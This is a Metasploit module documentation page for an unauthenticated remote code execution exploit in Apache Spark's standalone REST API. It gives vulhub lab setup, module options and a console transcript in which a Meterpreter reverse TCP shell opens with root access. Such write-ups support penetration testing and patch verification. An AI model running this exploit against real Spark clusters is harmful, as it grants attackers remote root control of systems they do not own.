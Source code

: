 ## Description

This module exploits an unauthenticated command execution vulnerability in Apache Spark with standalone cluster mode through REST API.
It uses the function CreateSubmissionRequest to submit a malious java class and trigger it.

## Vulnerable Application 

https://github.com/vulhub/vulhub/tree/master/spark/unacc 

`docker-compose up -d`

## Verification Steps

1. get session on target
2. `use exploit/linux/http/spark_unauth_rce`
3. `set payload <payload>`
4. `set rhosts <rhosts>`
5. `set rport <rport>`
6. `set srvhost <srvhost>`
7. `set srvport <srvport>`
8. `set lport <lport>`
9. `set lhost <lhost>`
10. `exploit`

## Scenarios

### Spark 2.3.1

```
msf5 > use exploit/linux/http/spark_unauth_rce
msf5 exploit(linux/http/spark_unauth_rce) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 exploit(linux/http/spark_unauth_rce) > set rport 6066
rport => 6066
msf5 exploit(linux/http/spark_unauth_rce) > set srvhost 10.139.14.167
srvhost => 10.139.14.167
msf5 exploit(linux/http/spark_unauth_rce) > set srvport 9999
srvport => 9999
msf5 exploit(linux/http/spark_unauth_rce) > set payload java/meterpreter/reverse_tcp
payload => java/meterpreter/reverse_tcp
msf5 exploit(linux/http/spark_unauth_rce) > set lhost 10.139.14.167
lhost => 10.139.14.167
msf5 exploit(linux/http/spark_unauth_rce) > set lport 5555
lport => 5555
msf5 exploit(linux/http/spark_unauth_rce) > exploit
[*] Exploit running as background job 3.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.139.14.167:5555
msf5 exploit(linux/http/spark_unauth_rce) > [*] Starting up our web service ...
[*] Using URL: http://10.139.14.167:9999/feTYHNiHufrGI
[*] 127.0.0.1:6066 - Sending the payload to the server...
[*] Sending stage (53867 bytes) to 10.139.14.167
[*] Meterpreter session 2 opened (10.139.14.167:5555 -> 10.139.14.167:56021) at 2018-11-12 16:59:33 +0800
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > sessions

Active sessions
===============

  Id  Name  Type                    Information          Connection
  --  ----  ----                    -----------          ----------
  2         meterpreter java/linux  root @ 96b2135aee9c  10.139.14.167:5555 -> 10.139.14.167:56021 (127.0.0.1)

msf5 exploit(linux/http/apache_couchdb_cmd_exec) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > getuid
Server username: root
meterpreter >
```
